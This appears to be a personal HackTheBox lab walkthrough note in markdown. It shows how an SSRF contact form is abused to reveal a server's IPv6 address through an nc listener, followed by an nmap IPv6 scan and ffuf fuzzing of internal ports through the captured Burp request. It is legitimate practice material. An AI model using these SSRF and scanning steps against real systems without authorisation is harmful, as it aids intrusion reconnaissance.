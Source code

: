 -------------------
### NMAP for IPv6 

Set up nc listener on ipv6

```
nc -6 -lvnp 9001
```

Get our kali ipv6 address
```
ip -6 addr
```

![[HackTheBox/Linux/attachments/Pasted image 20250508234811.png]]

Within the SSRF contact form > send to repeater 

Add Kali IPv6 instead of IPv4 to request along with port 9001

![[HackTheBox/Linux/attachments/Pasted image 20250508234959.png]]

Now we can see the server's IPv6 
![[HackTheBox/Linux/attachments/Pasted image 20250508235029.png]]

Run nmap against the server's ipv6 address
```
sudo nmap -6 -vv -oA nmap-ipv6 <server-ipv6-address>
```

![[HackTheBox/Linux/attachments/Pasted image 20250508235158.png]]
- 22 only 
ipv6 is a dead end
------------------------
### Enumerate open ports on the box

Using Burp repeater - port 22
![[HackTheBox/Linux/attachments/Pasted image 20250508235334.png]]
Response 
![[HackTheBox/Linux/attachments/Pasted image 20250508235401.png]]

### FFUF
To fuzz all the ports, add FUZZ within the Burp request and copy the request to a file called ssrf.req
![[HackTheBox/Linux/attachments/Pasted image 20250508235545.png]]

ffuf command
```
ffuf -request ssrf.req -request-proto http -w <(seq 1 65535) -fs 61
```

We can also filter based on the regex Burp response 
![[HackTheBox/Linux/attachments/Pasted image 20250508235900.png]]
